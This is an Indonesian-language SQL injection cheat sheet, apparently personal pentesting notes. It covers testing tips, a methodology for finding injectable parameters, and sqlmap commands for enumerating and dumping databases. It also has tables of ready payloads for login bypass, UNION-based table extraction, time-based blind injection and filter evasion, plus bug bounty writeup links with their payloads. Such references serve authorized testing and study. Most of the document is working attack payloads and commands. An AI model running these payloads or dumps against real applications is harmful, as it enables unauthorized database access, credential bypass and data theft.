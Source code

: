 # SQL Injection

## Tips
- Tidak semua payload biasa dijalankan di address-bar browser, kadang harus menggunakan burpsuite (repeater)
- Blind SQL injection generate error 500
- Pada injection login, coba test inject for username dahulu, kalau tidak bisa coba inject kedua username dan password
- Kalau value parameter yang injection kan adalah string maka mengunnakan 1='1 atau '1'='1'
- Blind berbeda dengan OOB
- Comment /*string*/ disebut juga obfusacator, pada MySQL 5.5.30 or higher, sintak berikut `SELECT 1 /*!50530 + 1*/` akan dieksekusi sebagai 2 bukan 1.
- OOB Channel -> DNS, email, Database connection
- logical true, hanya bisa menggunakan untuk true saja.
- union select 'asd' , bisa merefleksikan 'asd' pada HTTP response
- Error tidak selalu menjadikan patokan bah itu celah sqli, kadang celah tersebut tidak menghasilkan error tetapi ketika kita union 'asd' malah terfeleksikan 'asd' di response body 
- Cari parameter yang menjadi penetu perubahan data pada response
- Cara parameter yang reflected ke response

## langkah-langkah
1. Identifikasi DB apa yang digunakan, salah satu caranya adalah dengan generate error sehaingga server menampilka informasi teknologi. Walaupun server tidak mereturkan error, tapi server selau mereturn databse yang digunakan ketika kita menijectkan payload finding db version.
2. Identify kapan dan dimana aplikasi akan berinteraksi dengan DB Server untuk mengakses data. Berikut kondisi umum aplikasi berinteraksi dengan DB server.
    - Authentication form, user dan password akan dicek pada database apakah ada atau tidak (kadang juga hash)
    - Search Engine, string yang disubmit oleh user digunakan untuk mengeksract semua data yang relevant pada database
    - E-commerce site, semua produk e-commerce stored di DB
2. List entry point/parameter yang bisa digunakan untuk menginputkan SQL query, seperti (__GET parameter, POST parameter, HTTP header, cookies__)
3. Coba generate error pada entry point/parameter yang sudah dikumpulkan pada langkah sebelumnya menggunakan `'` (digunakan untuk memisahkan string) dan `;` (digunakan untuk mengakhiri kueri SQL)
4. Coba meng-injek payload tanpa break query, bisa mengguna comment


## Celah Injection
- Header
    - User-agent
      ```
      sqlmap -u 'http://google.com' -p user-agent --user-agent=elseagent --technique=B --banner
      sqlmap -u 'http://google.com' -p user-agent --random-agent --technique=U --tamper=space2comment --suffix=';#' union-char=els --banner //Digunakan jika server blok spasi dan menggunakan commen '#'
      ```
- Parameter GET
- Parameter POST

## SQLMap
- Menggali isi DB
    ```
    sqlmap -u 'http://google.com' --current-db
    sqlmap -u 'http://google.com' -D <namaDB> --tables
    sqlmap -u 'http://google.com' -D <nameDB> -T <namaTable> --columns
    sqlmap -u 'http://google.com' -D <nameDB> -T <namaTable> --dump
    ```

## Payload
|Payload|Payload alternatif|
|---|---|
|Logical True/false|`' OR 1=1` biasaya pake ini<br>`' OR 6=6`<br>`' OR 0x47=0x47`<br>`' OR char(32)=6''`<br>`' OR 6 is not null`<br>`admin' --`<br>`admin' #`<br>`admin'/*`<br>`' or 1=1--`<br>`' or 1=1#`<br>`' or 1=1/*`<br>`') or '1'='1--`<br>`') or ('1'='1--`|
|`UNION SELECT asd`|`UNION SELECT` <br> `'UNION ALL SELECT` <br> `') uZEROFILLnZEROFILLiZEROFILLoZEROFILLn sZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt 'PoC'; -- -`|
|`+UNION+SELECT+1,2,(table_name),4,5+from+information_schema.tables--+`|`union select 1,2,group_concat(table_name),4,5 from information_schema.tables where table_schema=database()—`<br>`'union(select('asd');# ->digunakan ketika comment diblok` <br> `union(select(group_concat(table_name))from(information_schema.columns/tables)where(table_schema=database()));#`<br>`union select group_concat(table_name) from information_schema.tables where table_schema=schema(); —- - (MySQL)`|
|' AND (SELECT 9160 FROM (SELECT(SLEEP(1-(IF(2085>2084,0,5)))))htyF) AND 'SyEv'='SyEv|' AND (SELECT 2484 FROM (SELECT(SLEEP(5)))wMTT) AND 'pbuG'='pbuG|
```
http://192.168.2.3/news-and-events.php?id=-22 union select 1,group_concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema=database()— //extract table name
```

|Database|Comment|
|---|---|
|Oracle|`--comment`|
|MySQL|`-- comment` `-- -comment` `; -- -comment` `#comment` `/*comment*/`(also obfuscator) `;%00`(nullbyte) `+--+/`|
|PostgreSQL|`--comment` `/*comment*/`|
|Microsoft|`--comment` `/*comment*/`|

  ```
  <spasi_kosong>
  '
  ')
  '))
  " / ") / "))
  `
  `)
  `))
  ```
  
|DB|Function (non-blind)|Function (blind)->string concatenation|Function (blind)->all function return an INTEGER NUMBER in the respective database while generate ERROR on all others|
|---|---|---|---|
|MySQL|@@version<br>@@global.version<br>version()|'Concat' 'enation'<br>CONCAT('Concat','enation')|CONNECTION_ID()<br>LAST_INSERT_ID()<br>ROW_COUNT()<br>...|
|MS SQL| @@version|'some'+'enation'<br>CONCAT('Concat','enation')|@@PACK_RECEIVED<br>@@ROW_COUNT<br>@@TRANCOUNT<br>...|
|Oracle|version FROM v$instance<br>banner FROM v$version WHERE banner LIKE 'oracle%'<br>banner FROM gv$version WHERE banner LIKE 'oracle%'|'Concat'\|\|'enation'<br>CONCAT('Concat','enation')|BITAND(0,1)<br>BIN_TO_NUMB(1)<br>TO_NUMBER(1231)<br>...|
    
## Writeups
|Title|Description|
|---|---|
|[SQL Injection at Spotify](https://infosecwriteups.com/sql-injection-at-spotify-d19e0861ddf0)|inject `' atau / atau \` dan amati error yang.<br>![image](https://user-images.githubusercontent.com/52058660/159397667-09fa2fdc-f9ec-4a36-b8dc-cd6cce2bc1f1.png)<br>![image](https://user-images.githubusercontent.com/52058660/159397603-504a8a1c-acf9-4ae1-8725-978f06f6061a.png)<br>![image](https://user-images.githubusercontent.com/52058660/159397728-b70f35f9-ab12-43cc-9483-67b9806c1ba9.png)<br>![image](https://user-images.githubusercontent.com/52058660/159397801-3e97cac7-76cb-46ca-9b08-7dde6c0a73a7.png)|
|[How I Hacked the Dutch Government with SQLi and Won the Famous T-Shirt?](https://goktugkaya.medium.com/how-i-hacked-the-dutch-government-and-won-the-famous-t-shirt-b45cdf5dfaa1)|Change GET to POST|
|[How I found a critical P1 bug in 5 minutes using a cellphone — Bug Bounty](https://medium.com/@mrempy/how-i-found-a-critical-p1-bug-in-5-minutes-using-a-cellphone-bug-bounty-303ebec3edd6)|injeksi pada login form<br>`admin’ and (select * from(select(sleep(40)))SQLI) and ‘abc’ = ‘abc`<br>menggunakan kiwi browser untuk menangkap request|
|[120 Days of High Frequency Hunting](https://kuldeep.io/posts/120-days-of-high-frequency-hunting/)|time delay vuln<br>`'; WAITFOR DELAY '00:00:10'-- -`|
|[Making a Blind SQL Injection a Little Less Blind](https://medium.com/@tomnomnom/making-a-blind-sql-injection-a-little-less-blind-428dcb614ba8)|sqli pada json, jika inject ' -> error, coba netralisir dengan /*'*/|
|[bypass sql injection #1109311](https://hackerone.com/reports/1224660)|`0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z`|
|[FUZZING FOR HIDDEN PARAMS](https://medium.com/@calfcrusher/fuzzing-for-hidden-params-671724bf3fd7)|fuzzing hidden parameter menggunakan ffuf dan payload arjun<br>https://github.com/Bo0oM/ParamPamPam/blob/master/params.txt|
| [Box 3: HTB - Vaccine](https://vict0rle.medium.com/box-3-htb-vaccine-393b2484e018)|unable to prompt for an interactive operating system shell via the back-end DBMS because stacked queries SQL injection is not supported|

## Resource
- [Web Security Academy - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [HackTricks -  SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [Netsparker - SQL Injection Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
- [Finding an unseen SQL Injection by bypassing escape functions in mysqljs/mysql](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)
- [BigQuery SQL Injection Cheat Sheet](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac)
- [Dumping a complete database using SQL injection [updated 2021]](https://resources.infosecinstitute.com/topic/dumping-a-database-using-sql-injection/)
- [SQLMap - Operating System Takeover - Windows](https://amolnaik4.blogspot.com/2012/05/sqlmap-operating-system-takeover.html)
